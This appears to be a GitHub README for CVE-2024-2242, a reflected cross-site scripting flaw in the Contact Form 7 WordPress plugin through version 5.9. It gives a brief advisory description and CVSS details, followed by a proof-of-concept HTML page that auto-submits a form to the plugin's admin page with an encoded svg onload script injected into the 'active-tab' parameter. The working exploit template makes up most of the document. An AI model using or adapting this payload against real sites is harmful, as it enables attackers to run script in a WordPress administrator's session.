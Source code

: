 # CVE-2024-2242
Contact Form 7 &lt;= 5.9 - Reflected Cross-Site Scripting

# Description

The Contact Form 7 plugin for WordPress is vulnerable to Reflected Cross-Site Scripting via the ‘active-tab’ parameter in all versions up to, and including, 5.9 due to insufficient input sanitization and output escaping. This makes it possible for unauthenticated attackers to inject arbitrary web scripts in pages that execute if they can successfully trick a user into performing an action such as clicking on a link.

```
CVSS: 6.1
Impact: 2.7
Vector: network
User Interaction: required
Privileges Required: none
Published: 2024-03-13
Updated: 2024-03-13
```

POC
---

You need to know the post id value the form is on otherwise when the admin clicks the link it won't work.
Overall this should have priviliages required as H as you need admin to click the link.

```
<html>

  <body>
    <form action="http://kubernetes.docker.internal/wp-admin/admin.php">
      <input type="hidden" name="page" value="wpcf7" />
      <input type="hidden" name="post" value="4478" />
      <input type="hidden" name="active&#45;tab" value="&apos;&quot;&gt;&lt;svg&#47;onload&#61;prompt&#40;7&#41;&#59;&gt;&#123;&#123;7&#42;7&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
